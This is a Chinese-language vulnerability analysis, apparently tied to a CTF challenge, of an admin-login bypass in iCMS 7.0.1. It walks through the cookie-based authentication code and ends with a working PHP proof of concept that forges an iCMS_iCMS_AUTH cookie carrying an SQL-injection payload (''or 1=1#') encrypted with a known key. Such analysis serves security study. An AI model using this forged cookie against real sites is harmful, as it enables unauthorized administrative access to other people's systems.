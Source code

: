@Author：Y4tacker

@time：2021/02/22 11:25 AM

# iCMS-7.0.1后台登录绕过分析

# 存在漏洞

- 一个是得到key以后可以万能密码登录后台(利用前提是已知KEY)

- 一个是验证码可重复利用(验证码Cookie值不变即可实现)



# 漏洞分析

这里我们讲第一个，经过简单的断点调试，我们发现登录的地方，会最终执行`app/members/members.class.php`下的`check_login`函数，他的逻辑不难，判断是否POST传入参数`$_POST['username']`与`$_POST['password']`，并且对这两个参数做了比较严格的过滤，因此我们不考虑单纯的sql注入

![](pic/1.png)

之后往下看我们发现如果参数为空，他就会取`iPHP::get_cookie(self::$AUTH);`，我们要想知道这个函数设的cookie的键，就必须得进入这个函数，发现是一个简单的拼接，因此不难得到为`iCMS_iCMS_AUTH`

![](pic/2.png)

我们回到`check_login`函数，第六十行说以$sep的值域为分割符，将我们的cookie的值转换为数组之后利用`list($a,$p)`进行对参数a和p的赋值，我们来看一下第57行

```php
$sep = iPHP_AUTH_IP?'#=iCMS['.$ip.']=#':'#=iCMS=#';
```

意思是看变量`iPHP_AUTH_IP`的值为true或false的一个三元运算符，今天做的那道题题目环境是false，因此他会取后面那个值，但是如果为true也不要怕，我们跟入`$ip  = iPHP::get_ip();`

发现都是可以用HTTP的请求头来获取的，所以这个不是问题

![](pic/3.png)

我的文件环境是打开了的，我也懒得关闭这个设置，正好测试是否可以请求头来实现获取ip

我们继续跟进`app/members/members.class.php`下的`self::check`

![](pic/4.png)

发现是没有经过过滤就直接拼接上参数，之后执行查询

![](pic/5.png)

那就好办了，万能密码就能绕过，但是下一个问题也来了我们如何获得Cookie后面加密的这个值呢，记得我们之前说的已经有了KEY吗，我们跟进这个加密函数，算法实现都丢出来了，加密解密一体，因此我们也就直接拿来用就行了

![](pic/6.png)

放上生成cookie的poc

```php
<?php
//error_reporting(0);
function urlsafe_b64decode($input){
    $remainder = strlen($input) % 4;
    if ($remainder) {
        $padlen = 4 - $remainder;
        $input .= str_repeat('=', $padlen);
    }
    return base64_decode(strtr($input, '-_!', '+/%'));
}

function authcode($string, $operation = 'DECODE', $key = '', $expiry = 0) {
    $ckey_length   = 8;
    $key           = md5($key ? $key : iPHP_KEY);
    $keya          = md5(substr($key, 0, 16));
    $keyb          = md5(substr($key, 16, 16));
    $keyc          = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';

    $cryptkey      = $keya.md5($keya.$keyc);
    $key_length    = strlen($cryptkey);

    $string        = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
    $string_length = strlen($string);

    $result        = '';
    $box           = range(0, 255);

    $rndkey        = array();
    for($i = 0; $i <= 255; $i++) {
        $rndkey[$i] = ord($cryptkey[$i % $key_length]);
    }

    for($j = $i = 0; $i < 256; $i++) {
        $j       = ($j + $box[$i] + $rndkey[$i]) % 256;
        $tmp     = $box[$i];
        $box[$i] = $box[$j];
        $box[$j] = $tmp;
    }

    for($a = $j = $i = 0; $i < $string_length; $i++) {
        $a       = ($a + 1) % 256;
        $j       = ($j + $box[$a]) % 256;
        $tmp     = $box[$a];
        $box[$a] = $box[$j];
        $box[$j] = $tmp;
        $result  .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
    }

    if($operation == 'DECODE') {
        if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
            return substr($result, 26);
        } else {
            return '';
        }
    } else {
        return $keyc.str_replace('=', '', base64_encode($result));
    }
}

echo "iCMS_iCMS_AUTH=".urlencode(authcode("'or 1=1##=iCMS[192.168.0.1]=#1","ENCODE","n9pSQYvdWhtBz3UHZFVL7c6vf4x6fePk"));
```



接着我们来测试一下，发现确实如此

![](pic/7.png)

分析结束